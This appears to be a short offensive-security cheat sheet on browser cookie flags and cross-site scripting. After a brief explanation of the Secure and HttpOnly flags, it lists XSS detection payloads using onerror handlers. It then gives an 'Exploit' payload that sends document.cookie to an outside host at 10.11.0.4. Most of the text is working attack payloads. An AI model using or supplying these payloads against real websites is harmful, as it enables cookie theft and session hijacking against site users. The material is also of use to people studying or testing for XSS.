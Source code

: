 The **Secure** flag instructs the browser to only send the cookie over encrypted connections, such as HTTPS. This protects the cookie from being sent in cleartext and captured over the network.

The **HttpOnly** flag instructs the browser to deny JavaScript access to the cookie. If this flag is
not set, we can use an XSS payload to steal the cookie.

### Payloads

## Detect
```javascript
< > ' " { } ;
<audio src/onerror=alert('################INJECT##############')>
<image/src/onerror=prompt('################INJECT##############')>
<img src =q onerror=alert('################INJECT##############')>
```

## Exploit
```javascript
<script>new Image().src="http://10.11.0.4/agh.css output="+document.cookie</script>
```